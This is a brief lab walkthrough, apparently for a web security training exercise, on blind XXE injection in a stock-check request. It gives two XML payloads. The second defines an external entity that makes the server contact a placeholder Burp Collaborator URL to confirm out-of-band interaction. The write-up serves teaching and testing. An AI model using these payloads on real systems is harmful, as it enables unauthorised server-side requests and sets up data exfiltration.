

# Lab: Blind XXE with out-of-band interaction

> Lab Objective: use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

- Check Stock for any product, then inspect the Request and Response.

- You'll notice that the POST body is in XML Format.
  

- Using this payload to configure which data value will reflect in the response.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE attacker [<!ENTITY xxe "HELLO">]>
<stockCheck>
    <productId>
        1 &xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

- In both cases where you put `&xxe;` in `productId` and `storeId`, `HELLO` is not reflected.

  - Put `&xxe;` in `productId`:
    
  - Put `&xxe;` in `storeId`:
    

- Use this payload to try to trigger an Out-of-Band Interaction.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE attacker [<!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-URL">]>
<stockCheck>
    <productId>
        1 &xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

- The Interaction has occured.
  

- Therefore, the lab is solved.
  

---
